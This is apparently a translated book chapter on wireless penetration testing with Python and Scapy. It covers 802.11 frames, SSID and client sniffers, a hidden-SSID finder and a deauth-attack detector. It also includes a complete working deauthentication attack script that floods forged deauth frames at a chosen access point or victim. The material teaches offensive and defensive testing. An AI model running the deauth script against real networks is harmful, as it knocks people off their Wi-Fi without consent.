






# 无线测试

无线连接时代带来了灵活性和移动性，但也带来了许多安全问题。通过有线连接，攻击者需要物理访问才能进行连接和攻击。在无线连接的情况下，攻击者只需要信号的可用性就可以发起攻击。在继续之前，您应该了解所使用的术语：

*   **接入点****AP**：用于将无线设备连接到有线网络。
*   **服务集标识符**（**SSID**）：这是无线局域网唯一的 0-32 字母数字标识符。它是人类可读的，简单地说，它是网络名称。
*   **基本业务集标识**（**BSSID**）：无线 AP 的 MAC 地址。
*   **信道号**：表示 AP 用于传输的射频范围。

由于 AP 的自动设置，频道号可能会更改，因此，在本章中，请不要混淆。如果在不同的时间运行相同的程序，则频道号可能会更改。

在本章中，我们将介绍以下概念：

*   查找无线 SSID
*   分析无线通信量
*   检测 AP 的客户端
*   无线 deauth 攻击
*   deauth 攻击的检测

# 802.11 帧简介

802.11 和 802.11x 被 IEEE 定义为一系列无线局域网技术。以下是基于频率和带宽的 802.11 规范：

*   `802.11`：提供高达 1-2Mbps 的带宽，频带为 2.4GHz
*   `802.11.a`：提供高达 54Mbps 的带宽，频带为 5GHz
*   `802.11.b`：这提供了高达 11Mbps 的带宽和 2.4GHz 的频带
*   `802.11g`：这提供了高达 54 Mbps 的带宽和 2.4 GHz 的频带
*   `802.11n`：这在两个频段提供高达 300 Mbps 的带宽

`802.11`的所有组件属于**媒体访问控制**（**MAC**层）或物理层。MAC 层是数据链路层的子类。我们已经在[第 2 章](2.html)*扫描测试*中介绍了数据链路层的**协议数据单元**（**PDU**），称为帧。

但是，首先，让我们了解一下`802.11`帧格式。`802.11`中存在的三种主要框架类型为：

*   数据帧
*   控制框架
*   管理框架

这些帧由 MAC 层辅助。下图描述了 MAC 层的格式：



在上图中，显示了三种类型的地址。**地址 1**、**地址 2**和**地址 3**分别是目的地、AP 和源的 MAC 地址。这意味着**地址 2**是 AP 的 BSSID。在本章中，我们的重点将放在管理框架上，因为我们对管理框架的子类型感兴趣。管理框架的一些常见类型有身份验证框架、取消身份验证框架、关联请求框架、解除关联框架、探测请求框架和探测响应框架。客户端和 AP 之间的连接是通过交换各种帧建立的，如下图所示：


帧交换

上图显示了帧的交换。这些框架是：

*   **信标帧**：AP 周期性发送一个信标帧来通告其存在。信标帧包含 SSID、通道号和 BSSID 等信息。
*   **探测请求**：无线设备（客户端）发出探测请求，确定哪些 AP 在范围内。探测请求包含 AP 的 SSID、支持的费率和特定于供应商的信息等元素。客户端发送探测请求并等待探测响应。
*   **探测响应**：对应的 AP 响应探测请求，会给出一个探测响应帧，该帧包含能力信息和支持的数据速率。
*   **认证请求**：客户端发送包含其身份的认证请求帧。
*   **认证响应**：AP 响应认证，表示接受或拒绝。如果存在共享密钥身份验证，例如 WEP，则 AP 以身份验证响应的形式发送质询文本。客户端必须将身份验证帧中被质询文本的加密形式发送回 AP。
*   **关联请求**：认证成功后，客户端发送包含其特征的关联请求，如支持的数据速率、AP 的 SSID 等。
*   **关联响应**：AP 发送包含接受或拒绝的关联响应。在接受的情况下，AP 将为客户端创建关联 ID。

我们即将进行的攻击将基于这些框架。

现在，是时候进行一次实际的讨论了。在下一节中，我们将介绍该理论的其余部分。

# 用 Python 进行无线 SSID 查找和无线流量分析

如果您已经使用 Back Track 或 Kali Linux 进行了无线测试，那么您将熟悉`airmon-ng`套件。`airmon-ng`脚本用于在无线接口上启用监控模式。监视器模式允许无线设备捕获帧，而无需与 AP 关联。我们将在 Kali Linux 上运行所有程序。下面的屏幕截图显示了如何设置**mon0**：


设置 mon0

当您运行`airmon-ng`脚本时，它会给无线网卡一个名称，例如**wlan0**，如前面的屏幕截图所示。`airmon-ng start wlan0`命令将在监控模式下启动**wlan0**，并且**mon0**捕获无线数据包。

现在，让我们编写第一个程序，它给出三个值：SSID、BSSID 和通道号。程序名为`ssid_finder_raw.py`。下面让我们看一下代码和说明：

1.  导入基本库：

```
      import socket 
      import struct
      import shelve 
      import sys
      import traceback
```

2.  要使用户能够查看以前存储的结果，请运行以下操作：

```
      ch = raw_input("Press 'Y' to know previous result ")
      print "USE only Ctrl+c to exit "
```

3.  如果用户按下`Y`，则程序将打开`wireless_data.dat`文件，获取 SSID、BSSID、通道号等信息。如果是第一次运行，`wireless_data.dat`文件将不存在：

```
      try :
        if ch.lower() == 'y':
          s = shelve.open("wireless_data.dat")
          print "Seq", "\tBSSID\t\t", "\tChannel", "SSID"
          keys= s.keys()
          list1 = []
          for each in keys:
            list1.append(int(each))
          list1.sort()

          for key in list1:
            key = str(key)
            print key,"\t",s[key][0],"\t",s[key][1],"\t",s[key][2]
          s.close()
          raw_input("Press any key to continue ")
          except Exception as e :
          print e
          raw_input("Press any key to continue ")
```

4.  代码创建一个套接字来捕获所有帧并将它们绑定到`mon0`。我希望您已经仔细阅读了[第 3 章](3.html)、*嗅探和渗透测试*。唯一的新事物是`3`。3 参数表示协议编号，表示`ETH_P_ALL`。这意味着我们对每个数据包都感兴趣：

```
      try:
        sniff = socket.socket(socket.AF_PACKET, socket.SOCK_RAW, 3)
        sniff.bind(("mon0", 0x0003))

      except Exception as e :
        print e 
```

5.  定义一个`ap_list`列表，稍后使用。打开名为`wireless_data.dat`的搁置文件：

```
      ap_list =[]
      print "Seq", "\tBSSID\t", "\t\tChannel", "SSID"
      s = shelve.open("wireless_data.dat","n")
```

6.  接收信标帧，提取`SSID`；`BSSID`、信道号信息；并保存在`wireless_data.dat`文件中。

7.  `if fm[radio_tap_lenght] == "\x80"`语法只允许信标帧。要理解`radio_tap_lenght+4+6+6+6+2+12+1`语法，请参见以下内容：


通过查看屏幕截图，您了解了与`radio_tap_length`一起使用的数值。

```
      try:
        while True :
          fm1 = sniff.recvfrom(6000)
         fm= fm1[0]
          radio_tap_lenght = ord(fm[2])
          #print radio_tap_lenght
          if fm[radio_tap_lenght] == "\x80" :
            source_addr = 
            fm[radio_tap_lenght+4+6:radio_tap_lenght+4+6+6]
            #print source_addr
            if source_addr not in ap_list:
              ap_list.append(source_addr)
              byte_upto_ssid = radio_tap_lenght+4+6+6+6+2+12+1
              a = ord(fm[byte_upto_ssid])
              list_val = []
              #print a
              bssid = ':'.join('%02x' % ord(b) for b in source_addr)
              #bssid = fm[36:42].encode('hex')
              s_rate_length = ord(fm[byte_upto_ssid+1 +a+1])
              channel = ord(fm[byte_upto_ssid+1 +a+1+s_rate_length+3])
              ssid = fm[byte_upto_ssid+1:byte_upto_ssid+1 +a]
```

8.  将获取的信息保存在`wireless_data.dat`中：

```
        print len(ap_list),"\t",bssid,"\t",channel,"\t",ssid
        list_val.append(bssid)
        list_val.append(channel)
        list_val.append(ssid)
        seq = str(len(ap_list))
        s[seq]=list_val
       except KeyboardInterrupt:
        s.close()
        sys.exit()

       except Exception as e :
       traceback.print_exc()
        print e 
```

如果要使用*Wireshark*捕捉帧，请使用`mon0`模式。以下帧是信标帧：


信标帧的 Wireshark 表示

前面的屏幕截图将清楚地结束您的疑问。截图是不言自明的。您可以选择通道号、SSID 和 BSSID

我在两个不同的无线 USB 卡上测试了代码，`ssid_finder_raw.py`的输出如下：



始终按*Ctrl*+*C*保存结果

现在，让我们编写代码，使用 Scapy 查找 AP 的 SSID 和 MAC 地址。您一定认为我们已经在原始数据包分析中执行了相同的任务。使用 scapy 编写代码比使用原始套接字容易，实际上，出于研究目的，您应该了解原始数据包分析。如果您想要一些 Scapy 不知道的信息，原始数据包分析可以让您自由创建所需的嗅探器：

```
from scapy.all import *
interface = 'mon0'
ap_list = []
def info(fm):
  if fm.haslayer(Dot11):

    if ((fm.type == 0) & (fm.subtype==8)):
      if fm.addr2 not in ap_list:
        ap_list.append(fm.addr2)
        print "SSID--> ",fm.info,"-- BSSID --> ",fm.addr2

sniff(iface=interface,prn=info)
```

让我们从头开始看代码。`scapy.all import *`语句导入 Scapy 库的所有模块。变量接口设置为`mon0`。声明了一个名为`ap_list`的空列表。在下一行中，定义了`info`函数并传递了`fm`参数。

`if fm.haslayer(Dot11):`语句就像一个过滤器，只通过`Dot11`流量；`Dot11`表示 802.11 流量。下一个`if((fm.type == 0) & (fm.subtype==8)):`语句是另一个过滤器，它传递帧类型为`0`且帧子类型为`8`的流量；类型`0`表示管理帧，子类型`8`表示信标帧。在下一行中，`if fm.addr2 not in ap_list:`语句用于消除冗余；如果 AP 的 MAC 地址不在`ap_list`中，则会追加列表并将地址添加到列表中，如下一行所述。下一行打印输出。最后一行`sniff(iface=interface,prn=info)`通过接口`mon0`嗅探数据，并调用`info()`函数。

以下屏幕截图显示了`ssid.py`程序的输出：



我希望你现在理解了`ssid.py`程序。让我们试着算出 AP 的频道号。我们必须对守则作一些修改。修改后的代码如下：

```
from scapy.all import *
import struct
interface = 'mon0'
ap_list = []
def info(fm):
  if fm.haslayer(Dot11):
    if ((fm.type == 0) & (fm.subtype==8)):
      if fm.addr2 not in ap_list:
        ap_list.append(fm.addr2)
        print "SSID--> ",fm.info,"-- BSSID --> ",fm.addr2, "-- Channel-
         -> ", ord(fm[Dot11Elt:3].info)
        sniff(iface=interface,prn=info)
```

您会注意到，我们在这里添加了一个东西，即`ord(fm[Dot11Elt:3].info)`。

你可能想知道`Dot11Elt`是什么。如果您在 Scapy 中打开`Dot11Elt`，您将得到三样东西，`ID`、`len`和`info`，如下输出所示：

```
  root@Mohit|Raj:~# scapy
  INFO: Can't import python gnuplot wrapper . Won't be able to plot.
  WARNING: No route found for IPv6 destination :: (no default route?)
  lWelcome to Scapy (2.2.0)
  >>> ls(Dot11Elt)
  ID         : ByteEnumField        = (0)
  len        : FieldLenField        = (None)
  info       : StrLenField          = ('')
  >>>
```

请参见以下类别代码：

```
class Dot11Elt(Packet):
  name = "802.11 Information Element"
  fields_desc = [ ByteEnumField("ID", 0, {0:"SSID", 1:"Rates", 2:  
  "FHset", 3:"DSset", 4:"CFset", 5:"TIM", 6:"IBSSset", 16:"challenge",
  42:"ERPinfo", 46:"QoS Capability", 47:"ERPinfo", 48:"RSNinfo",    
  50:"ESRates",221:"vendor",68:"reserved"}),
  FieldLenField("len", None, "info", "B"),
  StrLenField("info", "", length_from=lambda x:x.len) ]
```

在前面的类码中，`DSset`给出了通道号的信息，所以`DSset`号为`3`。

让我们不要让它变得复杂，让我们简单地使用 scapy 捕获一个数据包：

```
  >>> conf.iface="mon0"
  >>> frames = sniff(count=7)
  >>> frames
  <Sniffed: TCP:0 UDP:0 ICMP:0 Other:7>
  >>> frames.summary()
  RadioTap / 802.11 Management 8L 84:1b:5e:50:c8:6e > ff:ff:ff:ff:ff:ff   
 / Dot11Beacon / SSID='CITY PG3' / Dot11Elt / Dot11Elt / Dot11Elt /   
  Dot11Elt / Dot11Elt / Dot11Elt / Dot11Elt / Dot11Elt / Dot11Elt / 
  Dot11Elt / Dot11Elt / Dot11Elt / Dot11Elt / Dot11Elt / Dot11Elt / 
  Dot11Elt / Dot11Elt / Dot11Elt
  RadioTap / 802.11 Data 8L 84:1b:5e:50:c8:6e > 88:53:2e:0a:75:3f / 
  Dot11QoS / Dot11WEP
  84:1b:5e:50:c8:6e > 88:53:2e:0a:75:3f (0x5f4) / Raw
  RadioTap / 802.11 Control 13L None > 84:1b:5e:50:c8:6e / Raw
  RadioTap / 802.11 Control 11L 64:09:80:cb:3b:f9 > 84:1b:5e:50:c8:6e / 
  Raw RadioTap / 802.11 Control 12L None > 64:09:80:cb:3b:f9 / Raw
  RadioTap / 802.11 Control 9L None > 64:09:80:cb:3b:f9 / Raw
```

在下面的屏幕截图中，您可以看到在`0th`框架中有很多 Dot11Elt。让我们详细检查一下`0th`框架：


他在镜框里

现在你可以看到有几个`<Dot11Elt`。每个`Dot11Elt`有三个字段。`ord(fm[Dot11Elt:3].info)`给出通道号，位于第四位（根据类别代码），即`<Dot11Elt ID=DSset len=1 info='x04'`。我希望你现在明白了。

在 Wireshark 中，我们可以在下面的屏幕截图中看到由`Dot11Elt`表示的输出：



Wireshark 中的 Dot11Elt 表示

前面屏幕截图中标记的参数由`Dot11Elt`表示。

`scapt_ssid.py`程序的输出如下：


带通道输出

# 检测 AP 的客户端

您可能希望获取特定 AP 的所有客户端。在这种情况下，您必须捕获探测请求帧。在 scapy 中，这被称为`Dot11ProbeReq`。

让我们在下面的屏幕截图中查看 Wireshark 中的帧：



探测请求帧

探测请求帧包含一些有趣的信息，如源地址和 SSID，如前面的屏幕截图中突出显示的。

现在，我们来看看下面的代码：

```
from scapy.all import *
interface ='mon0'
probe_req = []
ap_name = raw_input("Please enter the AP name ")
def probesniff(fm):
  if fm.haslayer(Dot11ProbeReq):
    client_name = fm.info
    if client_name == ap_name :
      if fm.addr2 not in probe_req:
        print "New Probe Request: ", client_name 
        print "MAC ", fm.addr2
        probe_req.append(fm.addr2)
sniff(iface= interface,prn=probesniff)
```

让我们看看前面程序中添加的新内容。用户输入 AP 感兴趣的 SSID，该 SSID 将存储在`ap_name`变量中。`if fm.haslayer(Dot11ProbeReq):`语句表示我们对探测请求帧感兴趣。`if client_name == ap_name:`语句是一个过滤器，它捕获所有包含感兴趣的 SSID 的请求。`print "MAC ", fm.addr2`行打印连接到 AP 的无线设备的 MAC 地址。

`probe_req.py`程序的输出如下：



无线设备列表附在` CITY PG3`上。

# 无线隐藏 SSID 扫描仪

有时，出于安全原因，用户会隐藏其访问点 SSID，并将其计算机配置为检测访问点。隐藏 SSID 访问点时，信标帧停止广播其 SSID。在这个场景中，我们必须捕获 AP 关联客户端发送的所有探测请求、探测响应、重新关联请求、关联响应和关联请求帧。出于我们实验的目的，我隐藏了 SSID，然后运行`ssid_finder_raw.py`代码，如下图所示：


在前面的屏幕截图中，您可以清楚地看到没有显示第一个 AP 的 SSID

运行`hidden_ssid_finder.py`程序，但在运行程序之前，请确保监视器模式已打开，我们正在使用监视器模式`mon0`：

1.  导入基本模块：

```
      import socket 
      import sys
```

2.  创建一个原始套接字并将其与`mon0`接口绑定：

```
      sniff = socket.socket(socket.AF_PACKET, socket.SOCK_RAW, 3)
```

3.  要求用户输入 AP 的 MAC 地址，并从 MAC 地址中删除冒号：

```
      mac_ap = raw_input("Enter the MAC ")
      if ":"in mac_ap:
        mac_ap = mac_ap.replace(":","")
```

4.  创建列表和字典：

```
      processed_client =[]
      filter_dict = {64:'Probe request', 80:'Probe       response',32:'Reassociation request',16:'Association response',       0:'Association request' }
      filter_type = filter_dict.keys()
      probe_request_length = 4+6+6+6+2
```

5.  连续接收`filter_type`字典中定义的帧：

```
      while True :
        try:
          fm1 = sniff.recvfrom(6000)
          fm= fm1[0]
          radio_tap_lenght = ord(fm[2])
          if ord(fm[radio_tap_lenght]) in filter_type:
      dest =fm[radio_tap_lenght+4:radio_tap_lenght+4+6].encode('hex')
            source = fm[radio_tap_lenght+4+6       :radio_tap_lenght+4+6+6].encode('hex')
            bssid = fm[radio_tap_lenght+4+6+6       :radio_tap_lenght+4+6+6+6].encode('hex')
```

6.  查找 AP 的关联客户端：

```
      if mac_ap == source and dest not in processed_client :
        processed_client.append(dest)
```

7.  查找关联客户端的探测请求帧，并从探测请求帧中提取 SSID：

```
      if processed_client:
        if ord(fm[radio_tap_lenght]) == 64:
          if source in processed_client:
            ssid_bit = probe_request_length+radio_tap_lenght+1
            lenght_of_ssid= ord(fm[ssid_bit])
            if lenght_of_ssid:
              print "SSID is ",       fm[ssid_bit+1:ssid_bit+1+lenght_of_ssid]
```

8.  要优雅地退出，请按*Ctrl*+*C*：

```
  except KeyboardInterrupt:
    sniff.close()
    print "Bye"
    sys.exit()

  except Exception as e :
    print e
```

让我们运行代码。客户端必须连接到 AP，代码逻辑才能工作：


前面的输出显示只有一个客户端连接到 AP

# 无线攻击

到目前为止，您已经看到了各种收集信息的嗅探技术。在本节中，您将了解无线攻击是如何发生的，这是 pentesting 中一个非常重要的主题

# 反身份验证（deauth）攻击

取消身份验证框架属于管理框架的类别。当客户端希望断开与 AP 的连接时，客户端将发送取消验证帧。AP 还以应答的形式发送取消验证帧。这是正常的过程，但攻击者会利用此过程。攻击者伪造受害者的 MAC 地址，并代表受害者向 AP 发送 deauth 帧；因此，与客户端的连接被断开。`aireplay-ng`程序是完成 deauth 攻击的最佳工具。在本节中，您将学习如何使用 Python 执行此攻击。但是，您可以利用`ssid_finder_raw.py`代码的输出，因为`ssid_finder_raw.py`程序编写了一个文件

现在，让我们看一下以下代码：

*   导入基本模块和库：

```
      from scapy.all import *
      import shelve 
      import sys
      import os
      from threading import Thread
```

*   以下代码打开`wireless_data.dat`文件，获取信息，并将其显示给用户：

```
      def main():
         interface = "mon0"
         s = shelve.open("wireless_data.dat")
         print "Seq", "\tBSSID\t\t", "\tChannel", "SSID"
         keys= s.keys()
         list1 = []
         for each in keys:
            list1.append(int(each))
            list1.sort()
         for key in list1:
            key = str(key)
            print key,"\t",s[key][0],"\t",s[key][1],"\t",s[key][2]
         s.close()
```

*   以下代码要求用户输入 AP 序列号。如果用户想要指定任何受害者，那么用户可以提供受害者机器的 MAC；否则，代码将选择广播地址：

```
        a = raw_input("Enter the seq number of wifi ")
        r = shelve.open("wireless_data.dat")
        print "Are you Sure to attack on ", r[a][0]," ",r[a][2]
        victim_mac = raw_input("Enter the victim MAC or for broadcast 
        press 0 \t")
        if victim_mac=='0':
          victim_mac ="FF:FF:FF:FF:FF:FF"
```

*   所选 AP 正在使用信道号；以下代码为`mon0`设置了相同的频道号：

```
        cmd1 = "iwconfig wlan1 channel "+str(r[a][1])
        cmd2 = "iwconfig mon0 channel "+str(r[a][1])
        os.system(cmd1)
        os.system(cmd2)
```

*   这段代码很容易理解。`frame= RadioTap()/ Dot11(addr1=victim_mac,addr2=BSSID, addr3=BSSID)/ Dot11Deauth()`语句创建 deauth 数据包。从本章的第一个屏幕截图中，您可以查看以下地址：

```
  BSSID = r[a][0]
  frame= RadioTap()/ Dot11(addr1=BSSID,addr2=victim_mac, addr3=BSSID)/ 
  Dot11Deauth()
  frame1= RadioTap()/ Dot11(addr1=victim_mac,addr2=BSSID, addr3=BSSID)/ 
  Dot11Deauth()
```

*   以下代码告诉线程攻击 deauth 攻击：

```
  if victim_mac!="FF:FF:FF:FF:FF:FF":
    t1 = Thread(target=for_ap, args=(frame,interface))
    t1.start()
  t2 = Thread(target=for_client, args=(frame1,interface))
  t2.start()
```

在最后一行，`sendp(frame,iface=interface, count= 1000, inter= .1)``count`给出发送的数据包总数，`inter`表示两个数据包之间的间隔：

```
def for_ap(frame,interface):
  while True:
    sendp(frame, iface=interface, count=20, inter=.001)

def for_client(frame,interface):
  while True:
    sendp(frame, iface=interface, count=20, inter=.001)

if __name__ == '__main__':
  main()
```

`deauth.py`程序的输出如下：


此攻击的目的不仅是执行 deauth 攻击，还包括检查受害者的安全系统。IDS 应该能够检测到 deauth 攻击。到目前为止，没有办法避免攻击，但可以检测到。

# 检测 deauth 攻击

在本节中，我们将讨论如何检测反身份验证攻击。它就像一个无线 IDS，可以检测到反身份验证攻击。在这个程序中，我们将发现哪些接入点获得了 deauth 帧以及有多少帧。我们将在这里使用原始套接字来检测攻击。

让我们讨论一下`deauth_ids.py`计划。确保显示器已打开；否则，程序将给出一个错误：

*   导入基本模块和库：

```
      import socket 
      import Queue
      from threading import Thread
      from collections import Counter
```

*   稍后将使用队列和计数器：

```
      q1 = Queue.Queue()
      co = Counter()
```

*   以下代码创建原始套接字并将其绑定到`mon0`：

```
      try:
        sniff = socket.socket(socket.AF_PACKET, socket.SOCK_RAW, 3)
        sniff.bind(("mon0", 0x0003))
      except Exception as e :
        print e 
```

*   以下函数 ID 接收 deauth 帧，提取 BSSID，并将其放入全局队列：

```
      def ids():
        global q1
        while True :
          fm1 = sniff.recvfrom(6000)
          fm= fm1[0]
          radio_tap_lenght = ord(fm[2])
          if ord(fm[radio_tap_lenght]) == 192:
      bssid1 = fm[radio_tap_lenght+4+6+6 :radio_tap_lenght+4+6+6+6]
      bssid = ':'.join('%02x' % ord(b) for b in bssid1)
      q1.put(bssid)
```

*   下面的`insert_frame`函数从全局队列中获取 deauth 帧，并生成一个计数器来显示它：

```
      def insert_frame():
        global q1
        while True:
          mac=q1.get()
          list1 = [mac]
          co.update(list1)
          print dict(co)
```

*   下面的代码创建两个线程来启动`ids()`和`insert_frame`函数：

```
      i = Thread(target=ids)
      f = Thread(target=insert_frame)
      i.start()
      f.start()
```

为了执行攻击和检测，我们需要两台 Linux 机器和一个无线接入点。一台机器将进行攻击，第二台机器将运行我们的`deauth_ids.py`检测程序。

让我们讨论一下代码的输出。出于测试目的，运行`deauth_ids.py`，并从第二台机器启动 deauth 攻击：


您可以看到它连续显示受害者 BSSID，其计数器显示接收的帧数。让我们在继续中看到另一个屏幕截图：


如您所见，如果攻击者更改目标，我们的程序可以检测到多个访问点上的攻击。

# 总结

在本章中，我们学习了无线帧以及如何使用 Python 脚本和 scapy 库从无线帧中获取信息，例如 SSID、BSSID 和通道号。我们还学习了如何将无线设备连接到 AP。在收集信息之后，我们转向无线攻击。我们讨论的第一个攻击是 deauth 攻击，它类似于 Wi-Fi 干扰机。在此攻击中，您必须攻击无线设备，并查看 AP 或入侵检测系统的反应。

在[第 6 章](6.html)*蜜罐——为攻击者设置陷阱*中，您将学习如何为黑客设置陷阱，如何创建假回复或假身份